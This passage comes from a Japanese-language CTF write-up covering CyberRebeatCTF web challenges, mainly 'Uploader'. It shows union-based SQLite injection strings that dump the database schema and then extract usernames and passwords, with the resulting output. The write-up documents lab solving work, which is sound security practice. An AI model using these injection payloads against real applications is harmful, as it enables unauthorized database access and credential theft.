 ```php
$stmt->bindValue(1, $url, SQLITE3_TEXT);
$stmt->execute();

$db->close();
 ?>

</div>
</body>
</html>
```

`#CyberRebeatCTF` が含まれるツイートの URL を POST すればよいようです。Twitter で `#CyberRebeatCTF` を検索し、出てきたツイートの URL の screen_name を適当なものに変え POST するとフラグが得られました。

```
CRCTF{Thank_you_for_your_tweet!}
```

## [Web 284] Uploader

アップローダーの URL が与えられました。ファイル名で検索できるフォームがあったので `'` を検索してみると以下のようなエラーが返ってきました。

```
Warning: SQLite3::query(): Unable to prepare statement: 1, unrecognized token: "'" in /var/www/html/index.php on line 37

Fatal error: Uncaught Error: Call to a member function fetchArray() on boolean in /var/www/html/index.php:38 Stack trace: #0 {main} thrown in /var/www/html/index.php on line 38
```

SQLite3 が使われていることがわかります。`' union select sql, 2, 3, 4 from sqlite_master;--` を検索してみると以下のような結果が返ってきました。

```
ID	FileName	Published	UploadUser
1	circlecut.jpg	　2018-04-01　	guest
2	prologue_en.txt	　2018-05-15　	guest
3	prologue_jp.txt	　2015-05-14　	guest
4	rough_misa.jpg	　2018-05-20　	guest
5	sample.zip	　2018-07-01　	guest
CREATE TABLE "Files" ( `id`	INTEGER NOT NULL PRIMARY KEY AUTOINCREMENT, `file_name`	TEXT NOT NULL, `publication_date`	INTEGER NOT NULL, `upload_userid`	TEXT )	2	　3　	4
CREATE TABLE `Users` ( `userid`	TEXT NOT NULL, `password`	TEXT NOT NULL )	2	　3　	4
CREATE TABLE sqlite_sequence(name,seq)	2	　3　	4
```

`Users` の内容を `' union select userid, password, 3, 4 from users;--` で抜き出してみます。

```
ID	FileName	Published	UploadUser
1	circlecut.jpg	　2018-04-01　	guest
2	prologue_en.txt	　2018-05-15　	guest
3	prologue_jp.txt	　2015-05-14　	guest
4	rough_misa.jpg	　2018-05-20　	guest
5	sample.zip	　2018-07-01　	guest
guest	guest	　3　	4
harada	seishin0129	　3　	4
```
